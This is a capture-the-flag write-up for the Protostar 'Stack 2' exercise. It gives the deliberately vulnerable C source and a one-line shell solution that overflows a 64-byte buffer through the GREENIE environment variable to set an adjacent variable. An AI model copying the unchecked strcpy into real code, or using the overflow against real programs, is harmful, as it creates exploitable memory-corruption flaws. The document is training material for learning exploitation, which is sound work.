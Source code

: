 # Protostar - Stack 2

> NOTE: This writeup is __not__ written by me, John Hammond. This writeup is shamelessly stolen from [Maxime Peterlin](https://rainbowlyte.com/) (because he has done a much better job than I ever could), and the real original writeup can be found here: [https://github.com/RainbowLyte/writeups/blob/master/exploit-exercises_Protostar/stack2.md](https://github.com/RainbowLyte/writeups/blob/master/exploit-exercises_Protostar/stack2.md)

### About ###

>Stack2 looks at environment variables, and how they can be set.
>
>This level is at `/opt/protostar/bin/stack2

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### Solution ###

This challenge is pretty much the same as `Stack 2`, except that in this one the entry point is located in the environment variable `GREENIE` and not the argument `argv[1]`.

```
user@protostar:/tmp$ GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'") stack2
you have correctly modified the variable
```